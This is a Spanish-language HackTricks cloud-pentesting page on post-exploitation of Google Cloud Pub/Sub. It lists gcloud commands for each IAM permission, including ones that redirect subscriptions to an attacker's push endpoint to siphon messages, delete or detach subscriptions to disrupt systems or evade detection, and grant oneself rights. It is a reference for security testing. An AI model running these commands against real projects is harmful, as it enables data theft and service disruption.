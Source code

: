 # GCP - Post Explotación de Pub/Sub

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Pub/Sub

Para obtener más información sobre Pub/Sub, consulta la siguiente página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publica un mensaje en un tema, útil para **enviar datos inesperados** y activar funcionalidades inesperadas o explotar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para evitar que una suscripción reciba mensajes, tal vez para evitar ser detectado.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para evitar que una suscripción reciba mensajes, tal vez para evitar ser detectado.\
Es posible eliminar un tema incluso si tiene suscripciones asociadas.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utiliza este permiso para actualizar alguna configuración del tema y así interrumpirlo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Otórgate permiso para llevar a cabo cualquiera de los ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtén todos los mensajes en un servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crear una suscripción y usarla para **extraer mensajes**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminar una suscripción** podría ser útil para interrumpir un sistema de procesamiento de registros o algo similar:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Utiliza este permiso para actualizar alguna configuración y así almacenar los mensajes en un lugar al que puedas acceder (URL, tabla de Big Query, Bucket) o simplemente para interrumpirlo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Otórgate los permisos necesarios para realizar cualquiera de los ataques comentados anteriormente.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Ataca un esquema a un tema para que los mensajes no lo cumplan y, por lo tanto, el tema se vea interrumpido.\
Si no hay esquemas, es posible que necesites crear uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Esto puede parecer que al eliminar un esquema podrás enviar mensajes que no cumplen con el esquema. Sin embargo, al eliminar el esquema, ningún mensaje realmente entrará en el tema. Por lo tanto, esto es **INÚTIL**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Otórgate los permisos necesarios para realizar cualquiera de los ataques comentados anteriormente.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Esto creará una instantánea de todos los mensajes no confirmados y los devolverá a la suscripción. No es muy útil para un atacante, pero aquí está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
